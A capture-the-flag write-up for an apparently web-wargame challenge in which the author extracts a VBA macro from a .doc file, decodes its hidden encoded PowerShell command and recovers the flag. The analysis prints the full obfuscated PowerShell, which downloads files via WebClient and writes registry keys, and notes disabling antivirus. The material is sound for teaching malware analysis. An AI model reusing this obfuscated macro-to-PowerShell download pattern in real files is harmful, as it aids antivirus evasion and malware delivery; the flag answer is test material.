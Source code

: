 # **S1mple Obfusc4tion**

```
The flag has 2 parts. Part 2 has been encode and saved somewhere. Can you find it?

Download file: https://drive.google.com/file/d/1ZmWZiTTqL62wjZvhgcZabrt59W-Mq7uQ/view?usp=sharing
Password: wargame
```

Extract the given compressed file with the given password, we will have a .doc file. I must turn off my anti virus program because it kept deleting my file LMAO. 

Open it up and we see a macro. I had done a lot of research about macro in .doc file then I found [this](https://www.decalage.info/vba_tools).

![Macro](https://user-images.githubusercontent.com/89141562/188659787-5c357edf-855a-4b63-a3bb-56165818a946.png)

So we will use a tool call `olevba`. We have something like this.

![](https://user-images.githubusercontent.com/89141562/188659291-a3647f33-102b-437b-b0eb-504bc7f2f318.png)

I found a malicious content in the macro:

```
uxZIlRCaHe = "Powershell.exe -WindowStyle Hidden -nop -ENCOD JABFAGcAUgBJADkAYgBqAGg...cgBdADMANgApACAAfAAgAGkAZQB4AH0AOwANAAoA"
```
There's a lot of it so that I can't show you guys all sorry :'(

Look likes it was powershell commands but was encoded with base64, so I put it to `cyberchef` to decode it and here is what I found. Very interesting:

![](https://user-images.githubusercontent.com/89141562/188659390-27fac218-3d8a-4fed-953b-63a53c04bf40.png)

```powershell
$EgRI9bjh5S = ('New-Tem' + 'p' + 'orar' + 'yFile')|& ( $pshOme[4] + $psHOmE[34] + 'X');
$GLHNe0URoh = (100, 71, 104, 108, 73, 72, 82, 104, 97);
$GF8UYpawBX = ((("{4}{3}{2}{6}{5}{1}{0}"  -f 'llName', 'h5S.Fu', 'R', 'g', 'tP7E', 'j', 'I9b'))   -rePLACe 'tP7', [CHaR]36)|& ((get-VArIABLe '*mDr*').NaME[3, 11, 2] -jOIN'');
$GLHNe0URoh += (87, 119, 103, 98, 50, 89, 103, 100, 71, 104, 108, 73, 71, 90, 115, 89, 87);
$GLHNe0URoh += (99, 103, 79, 105, 74, 102, 97, 72, 86, 122, 100, 71, 119, 122, 88, 51, 73, 122, 89, 87, 120, 102, 97, 71, 70);
$Eg4w85M9Qi = (('trS' + 'Wxrked ' + 'sx hca' + 'd' + 'rd' + ', fx' + 'r' + 'gxt' + ' hx' + 'w tx v' + 'cadcca' + 'dtix' + 'n!' + '!' + '!!tr' + 'S.Re' + 'P' + 'lAc' + 'E(trSxtr' + 'S,' + 'trS0trS).' + 'R' + 'e' + 'PlAcE(t' + 'r' + 'S' + 'ca' + 'dt' + 'rS,tr' + 'Sat' + 'rS' + ')')   -repLaCE 'trS', [CHAr]39) | . ((varIaBle '*mdr*').namE[3, 11, 2] -jOin'');
$GLHNe0URoh += (121, 90, 72, 48, 105);
$sEpb5puTtV = (('{4}{0}{3}{5}{1}{7}{2}{6}' -f 'nVerT]:', 'HNe', 'h', ':toBaSE6', '[System.Co', '4STRINg(jD8GL', ')', '0URo')).rePLACe(([chAR]106 + [chAR]68 + [chAR]56), [strIng][chAR]36) |& ((VArIaBLe '*MDR*').nAME[3, 11, 2] -jOin'');
echo $sEpb5puTtV | .('{2}{1}{0}'  -f 'ile', 'ut-f', 'o') ${GF8UYpawBX};
$azfcfToiBq = ("{1}{4}{8}{7}{2}{5}{6}{9}{3}{0}"  -f 'ion', 'Welc', '_Warga', 'cat', 'om', 'me!', 'S1mple', 'o', 'e_t', '_Obfu');
$cOP2lgqRhb = 'Xgf{jgn{tgz|{c<Pg;}k';
$cOP2lgqRhb.("{1}{2}{0}"  -f 'ay', 'tocha', 'rarr').invoke() | .("{2}{1}{0}{3}"  -f'-', 'ach', 'fore', 'object')   -Process { $rEianMEKgy += [char]([byte][char]$_  -bxor 0xf) };
$C4Lg8xccWH = 'https:][(s)]w][(s)]wwhitehat.com][(s)]ww1zw][(s)]w$https:][(s)]w][(s)]wwargame.com][(s)]wthuchanh'.repLAcE((']' + '[' + ('(s)]' + 'w')), ([array]('/'), ('xw' + 'e'))[0]).sPlIT('$');
$mAMq5ixXLi = 0;
try {
    foreach($JJU1E8IktL  in $C4Lg8xccWH) {
        (New - Object System.Net.WebClient).DownloadFile($JJU1E8IktL, 'C:\Users\Whitehat')
    }

} catch [System.Net.WebException], [System.IO.IOException] {
    ("{9}{3}{7}{0}{10}{8}{2}{5}{11}{6}{4}{1}"  -f 'on', 'ist!!!', ' or Fil', 'nne', 'ex', 'e does ', 't ', 'cti', 'ailed!!!', 'Co', ' F', 'no');
    $mAMq5ixXLi = 1
};
(('New' + '-Item -Path ' + '{0' + '}HK' + 'C' + 'U:{0}' + ' ' + '-' + 'Name ' + '{0}whit' + 'eha' + 't{0}') -F  [char]34)| iex;
if ($mAMq5ixXLi   -gt 0)  {
    (('New' + '-' + 'I' + 'temProperty' + ' -Pat' + 'h I9' + 'KHKCU:1' + 'Lewhitehat' + 'I9' + 'K -Nam' + 'e I9' + 'Kwarga' + 'meI9K -Va' + 'lue Nzvazf' + 'c' + 'fToiBq' + ' -PropertyType I9KStri' + 'ngI9K').RePlACe('I9K', [sTrIng][Char]34).RePlACe(([Char]49 + [Char]76 + [Char]101), [sTrIng][Char]92).RePlACe(([Char]78 + [Char]122 + [Char]118), '$'))| iex
} else {
    PS C:\Users\my_ant_ti3m > ((("{4}{9}{0}{13}{7}{3}{1}{10}{8}{6}{16}{12}{11}{2}{15}{5}{14}"  - f'roperty -P', 'CU:rBQwh', 'o', 'lX1HK', 'New-It', 'e lX1', 'lX1wargamelX1 ', 'h ', ' ', 'emP', 'itehatlX1 -Name', '-Pr', ' ', 'at', 'StringlX1', 'pertyTyp', '-Value 8qarEianMEKgy '))   - rEpLACe ([ChAr]108 + [ChAr]88 + [ChAr]49), [ChAr]34  - rEpLACe([ChAr]114 + [ChAr]66 + [ChAr]81), [ChAr]92   - crepLacE([ChAr]56 + [ChAr]113 + [ChAr]97), [ChAr]36) | iex
};
```
I used Base64 decode, text decode with UTF-16LE and code tidy. So I noticed that `$GLHNe0URoh` was a variable which was added some ASCII to it. Using `dcode`, I had this: `dGhlIHRhaWwgb2YgdGhlIGZsYWcgOiJfaHVzdGwzX3IzYWxfaGFyZH0i`. Then base64 again:

![](https://user-images.githubusercontent.com/89141562/188659529-2151b7d9-e3a2-4dbd-8ccf-03371f2d3068.png)

It was just the end of the flag, I must find the head in those code. I had tried many variables, but `$rEianMEKgy` gave me this

![](https://user-images.githubusercontent.com/89141562/188659556-2921f00e-e362-4bbd-ab66-4bc1f44746ce.png)

## FLAG: Whitehat{hustl3_h4rd_hustl3_r3al_hard}


